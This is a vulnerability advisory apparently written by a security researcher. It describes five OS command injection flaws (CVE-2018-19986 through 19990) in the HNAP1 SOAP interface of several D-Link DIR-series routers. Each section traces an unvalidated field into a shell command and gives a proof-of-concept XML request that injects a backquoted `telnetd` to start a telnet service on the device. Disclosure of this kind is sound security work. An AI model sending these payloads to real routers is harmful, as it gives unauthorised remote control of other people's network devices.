








# D-Link HNAP protocol multiple OS Command Injection

**Vender**: D-Link

**Exploit Author**: pr0v3rbs@kaist.ac.kr

## CVE-2018-19986 - /HNAP1/SetRouterSettings

**Firmware version**:
DIR-818LW_REVA - 2.05.B03,
DIR822B1 - 202KRb06

**Hardware Link**:
https://support.dlink.com/ProductInfo.aspx?m=DIR-818LW,
http://www.mydlink.co.kr/2013/beta_board/product_detail.php?no=205&model=DIR-822

### The detail of vulnerability ###

In the `/HNAP1/SetRouterSettings` message, the `RemotePort` element is vulnerable, and the vulnerability affects D-Link DIR-818LW Rev.A 2.05.B03 and DIR-822 B1 202KRb06 devices.

In the `SetRouterSettings.php` source code, the `RemotePort` element is saved in the `$path_inf_wan1."/web"` internal configuration memory without any regex checking.



And in the `IPTWAN_build_command` function of the `iptwan.php` source code, the data in `$path_inf_wan1."/web"` is used with the iptables command without any regex checking.



...


A vulnerable /HNAP1/SetRouterSettings XML message could have shell metacharacters in the `RemotePort` element such as the ``` `telnetd` ``` string.

### PoC xml

```
<?xml version="1.0" encoding="utf-8"?> <soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"> <soap:Body>
<SetRouterSettings xmlns="http://purenetworks.com/HNAP1/">
<ManageRemote>default</ManageRemote>
<ManageWireless>default</ManageWireless>
<RemoteSSL>default</RemoteSSL>
<RemotePort>`telnetd`</RemotePort>
<DomainName>default</DomainName>
<WiredQoS>default</WiredQoS>
</SetRouterSettings>
</soap:Body> </soap:Envelope>
```

## CVE-2018-19987 - /HNAP1/SetAccessPointMode

**Firmware version**:
DIR-822_REVB - 202KRb06,
DIR-822_REVC - 3.10B06,
DIR-860L_REVB - 2.03.B03,
DIR-868L_REVB - 2.05B02,
DIR-880L_REVA - 1.20B01_01_i3se_BETA,
DIR-890L_REVA - 1.21B02_BETA

**Hardware Link**:
http://www.mydlink.co.kr/2013/beta_board/product_detail.php?no=205&model=DIR-822,
https://support.dlink.com/ProductInfo.aspx?m=DIR-822-US,
https://support.dlink.com/ProductInfo.aspx?m=DIR-860L,
https://support.dlink.com/ProductInfo.aspx?m=DIR-868L,
https://support.dlink.com/ProductInfo.aspx?m=DIR-880L,
https://support.dlink.com/ProductInfo.aspx?m=DIR-890L%2FR

### The detail of vulnerability ###

In the `/HNAP1/SetAccessPointMode` message, the `IsAccessPoint` element is vulnerable, and the vulnerability affects D-Link DIR-822 Rev.B 202KRb06, DIR-822 Rev.C 3.10B06, DIR-860L Rev.B 2.03.B03, DIR-868L Rev.B 2.05B02, DIR-880L Rev.A 1.20B01_01_i3se_BETA, and DIR-890L Rev.A 1.21B02_BETA devices.

In the `SetAccessPointMode.php` source code, the IsAccessPoint element is saved in the `$ShellPath` script file without any regex checking.



After the script file is executed, the command injection occurs.

A vulnerable `/HNAP1/SetAccessPointMode` XML message could have shell metacharacters in the `IsAccessPoint` element such as the ``` `telnetd` ``` string.

### PoC xml

```
<?xml version="1.0" encoding="utf-8"?> <soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"> <soap:Body>
<SetAccessPointMode xmlns="http://purenetworks.com/HNAP1/">
<IsAccessPoint>`telnetd`</IsAccessPoint> </SetAccessPointMode>
</soap:Body> </soap:Envelope>
```

## CVE-2018-19988 - /HNAP1/SetClientInfoDemo

**Firmware version**:
DIR-868L_REVB - 2.05B02

**Hardware Link**:
https://support.dlink.com/ProductInfo.aspx?m=DIR-868L

### The detail of vulnerability ###

In the `/HNAP1/SetClientInfoDemo` message, the `AudioMute` and `AudioEnable` elements are vulnerable, and the vulnerabilities affect D-Link DIR-868L Rev.B 2.05B02 device.

In the `SetClientInfoDemo.php` source code, the `AudioMute` and `AudioEnble` elements are saved in the `$ShellPath` script file without any regex checking.



...


After the script file is executed, the command injection occurs. It needs to bypass the wget command option with a single quote.

A vulnerable `/HNAP1/SetClientInfoDemo` XML message could have single quotes and backquotes in the `AudioMute` or `AudioEnable` element, such as the ``` '`telnetd`' ``` string.

### PoC xml

```
<?xml version="1.0" encoding="utf-8"?> <soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"> <soap:Body>
<SetClientInfoDemo> <ClientInfoLists> <ClientInfo>
<MacAddress>11:22:33:44:55:66</MacAddress>
<NickName>default</NickName>
<ReserveIP>192.168.0.1</ReserveIP> <SupportedAction>
<AudioMute>'`telnetd`'</AudioMute>
<AudioEnable>default</AudioEnable>
<SmartPlugEnable>default</SmartPlugEnable>
<ZWaveSmartPlug>default</ZWaveSmartPlug> </SupportedAction>
</ClientInfo> </ClientInfoLists>
</SetClientInfoDemo>
</soap:Body> </soap:Envelope>
```

and

```
<?xml version="1.0" encoding="utf-8"?> <soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"> <soap:Body>
<SetClientInfoDemo> <ClientInfoLists> <ClientInfo>
<MacAddress>11:22:33:44:55:66</MacAddress>
<NickName>default</NickName>
<ReserveIP>192.168.0.1</ReserveIP> <SupportedAction>
<AudioMute>default</AudioMute>
<AudioEnable>'`telnetd`'</AudioEnable>
<SmartPlugEnable>default</SmartPlugEnable>
<ZWaveSmartPlug>default</ZWaveSmartPlug> </SupportedAction>
</ClientInfo> </ClientInfoLists>
</SetClientInfoDemo>
</soap:Body> </soap:Envelope>
```

## CVE-2018-19989 - /HNAP1/SetQoSSettings

**Firmware version**:
DIR-822_REVB - 202KRb06,
DIR-822_REVC - 3.10B06

**Hardware Link**:
http://www.mydlink.co.kr/2013/beta_board/product_detail.php?no=205&model=DIR-822,
https://support.dlink.com/ProductInfo.aspx?m=DIR-822-US

### The detail of vulnerability ###

In the `/HNAP1/SetQoSSettings` message, the `uplink` element is vulnerable, and the vulnerability affects D-Link DIR-822 Rev.B 202KRb06 and DIR-822 Rev.C 3.10B06 devices.

In the `SetQoSSettings.php` source code, the `uplink` element is saved in the `/bwc/entry:1/bandwidth` and `/bwc/entry:2/bandwidth` internal configuration memory without any regex checking.



And in the `bwc_tc_spq_2013gui_start` functions of the `bwcsvcs.php` source code, the data in `$rtbwcp."/bandwidth"` is not checked when '$name!="LAN-1"' (e.g., WAN-1).



Finally, with the `$trate` element the `startcmd` function called to execute command.


A vulnerable `/HNAP1/SetQoSSettings` XML message could have shell metacharacters in the `uplink` element such as the ``` `telnetd` ``` string.

### PoC xml

```
<?xml version="1.0" encoding="utf-8"?> <soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"> <soap:Body>
<SetQoSSettings> <uplink>`telnetd`</uplink>
<downlink>default</downlink>
<QoSInfoData> <QoSInfo>
<Hostname>hostname</Hostname>
<IPAddress>192.168.0.1</IPAddress>
<MACAddress>default</MACAddress>
<Priority>default</Priority>
<Type>default</Type>
</QoSInfo> </QoSInfoData> </SetQoSSettings>
</soap:Body> </soap:Envelope>
```


## CVE-2018-19990 - /HNAP1/SetWiFiVerifyAlpha

**Firmware version**:
DIR822B1 - 202KRb06

**Hardware Link**:
http://www.mydlink.co.kr/2013/beta_board/product_detail.php?no=205&model=DIR-822

### The detail of vulnerability ###

In the `/HNAP1/SetWiFiVerifyAlpha` message, the `WPSPIN` element is vulnerable, and the vulnerability affects D-Link DIR-822 B1 202KRb06 device.

In the `SetWiFiVerifyAlpha.php` source code, the `WPSPIN` element is saved in the `$rphyinf1."/media/wps/enrollee/pin"` and `$rphyinf2."/media/wps/enrollee/pin"` and `$rphyinf3."/media/wps/enrollee/pin"` internal configuration memory without any regex checking.



And in the `do_wps` function of the `wps.php` source code, the data in `$rphyinf3."/media/wps/enrollee/pin"` is used with the wpatalk command without any regex checking.



A vulnerable `/HNAP1/SetWiFiVerifyAlpha` XML message could have shell metacharacters in the `WPSPIN` element such as the ``` `telnetd` ``` string.

### PoC xml

```
<?xml version="1.0" encoding="utf-8"?> <soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"> <soap:Body>
<SetWiFiVerifyAlpha xmlns="http://purenetworks.com/HNAP1/" > <WPS>
<DEV_PIN>default</DEV_PIN>
<ResetToUnconfigured>default</ResetToUnconfigured>
<WPSPBC>default</WPSPBC>
<WPSPIN>`telnetd`</WPSPIN> </WPS>
</SetWiFiVerifyAlpha>
</soap:Body> </soap:Envelope>
```